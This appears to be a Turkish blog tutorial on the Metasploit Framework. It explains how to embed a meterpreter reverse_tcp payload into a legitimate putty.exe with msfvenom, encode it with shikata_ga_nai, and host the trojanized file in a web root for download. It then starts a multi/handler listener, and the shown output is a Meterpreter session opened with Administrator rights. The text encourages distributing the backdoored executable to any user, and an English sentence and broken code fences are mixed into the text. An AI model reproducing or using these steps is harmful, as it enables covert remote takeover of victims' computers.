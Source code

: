 ```yaml
---
draft: false

title:  'MSF EXE Arka Kapısı'
date: '2017-06-16T14:00:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Bir hedef bilgisayara yönelik olarak özel bir .exe dosyası oluşturmak ve içine kodlar gömmek gerçekten uzun zaman alabilir. Bunun yerine, zaten var olan bir .exe uzantılı dosyanın içine, Metasploit Payload modülleri yerleştirebilirsiniz.' 
 
url:  /tr/msf-exe-arka-kapisi/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```

## Bir EXE Dosyası İle Arka Kapı Oluşturma

Bir hedef bilgisayara yönelik olarak özel bir .exe dosyası oluşturmak ve içine kodlar gömmek gerçekten uzun zaman alabilir. Bunun yerine, zaten var olan bir .exe uzantılı dosyanın içine, Metasploit Payload modülleri yerleştirebilirsiniz.

Bu yazıda, bir .exe dosyasının içine, Metasploit Payload yerleştirip encode etmeyi göreceğiz. Bu sayede, kodlanmış özel .exe dosyasını çalıştıran kullanıcının bilgisayarından bizim bilgisayarımıza Meterpreter oturum açılacaktır.

## Exe Dosyası İndirme

Örneğimizde, `putty.exe` isimli dosyayı kullanacağız. Öncelikle bu dosyayı indirelim. Encode edilmiş .exe dosyamızı web sayfasından dağıtacağımıza göre, Kali Linux içinde sunucumuzun bulunduğu `/var/www/` klasörüne gidelim ve indirmeyi aşağıdaki komut ile başlatalım.
```bash
root@kali:/var/www# wget <a href="http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe">http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe</a>
--2015-07-21 12:01:27--  <a href="http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe">http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe</a>

Resolving the.earth.li (the.earth.li)... 46.43.34.31, 2001:41c8:10:b1f:c0ff:ee:15:900d
Connecting to the.earth.li (the.earth.li)|46.43.34.31|:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: <a href="http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe">http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe</a> [following]
--2015-07-21 12:01:27--  <a href="http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe">http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe</a>
Reusing existing connection to the.earth.li:80.
HTTP request sent, awaiting response... 200 OK
Length: 524288 (512K) [application/x-msdos-program]
Saving to: `putty.exe'

100%[=========================================================================================================>] 524,288      815K/s   in 0.6s    

2015-07-21 12:01:28 (815 KB/s) - `putty.exe' saved [524288/524288]

root@kali:/var/www#
```

Şimdi, bu indirdiğimiz `putty.exe` dosyasının içine, `msfvenom` komutunu kullanarak bir Metasploit Payload modülünü yerleştireceğiz. Yerleştireceğimiz modül, `windows/meterpreter/reverse_tcp` modülüdür ve LHOST olarak kendi IP adresimiz olan 192.168.1.101 IP adresini ayarlayacağız.

Next, we use msfvenom to inject a meterpreter reverse payload into our executable and encoded it 3 times using shikata_ga_nai and save the backdoored file into our web root directory.

root@kali:/var/www# msfvenom -a x86 –platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe -o puttyX.exe

Found 1 compatible encoders Attempting to encode payload with 3 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 326 (iteration=0) x86/shikata_ga_nai succeeded with size 353 (iteration=1) x86/shikata_ga_nai succeeded with size 380 (iteration=2) x86/shikata_ga_nai chosen with final size 380 Payload size: 380 bytes Saved as: puttyX.exe root@kali:/var/www#
```bash

İşlem başarıyla sonuçlandığında elimizde ```puttyX.exe``` isimli kodlanmış ve içine payload yerleştirilmiş bir çalıştırılabilir dosya bulunmaktadır.

.exe dosyasının içine, reverse payload yerleştirildiğine göre, bu payload bizim yerel bilgisayarımıza bağlanmak isteyecektir. O zaman, ```msfconsole``` içerisinde bir dinleyici modül çalıştırmalıyız ki bağlantı mümkün olsun.

Bunun için ```exploit/multi/handler``` modülünü kullanalım ve gerekli ayarları yapalım.

```sh
msf > use exploit/multi/handler 

msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp 
PAYLOAD => windows/meterpreter/reverse_tcp

msf exploit(handler) > set LHOST 192.168.1.101
LHOST => 192.168.1.101

msf exploit(handler) > set LPORT 443
LPORT => 443

msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.101:443 
[*] Starting the payload handler...
```

Artık dinleme modülü de çalışmaktadır. Bu aşamadan sonra yapılması gereken, oluşturduğumuz .exe dosyasını web üzerinden dağıtmaktır. Herhangi bir kullanıcı bu dosyayı çalıştırdığında, otomatik olarak yerel bilgisayarımıza bağlanacak ve Meterpreter oturumu açılacaktır.
```bash
> Sending stage (749056 bytes) to 192.168.1.201
> Meterpreter session 1 opened (192.168.1.101:443 -> 192.168.1.201:1189) at Sat Feb 05 08:54:25 -0700 2011

meterpreter > getuid
Server username: XEN-XP-SPLOIT\Administrator
meterpreter >
```

Bu yazıda anlatılan işlemler ve .exe dosyasının dağıtılması, göründüğünden daha uzun süre alabilir. Burada sadece işlemin mantığı açıklanmaya çalışılmıştır.
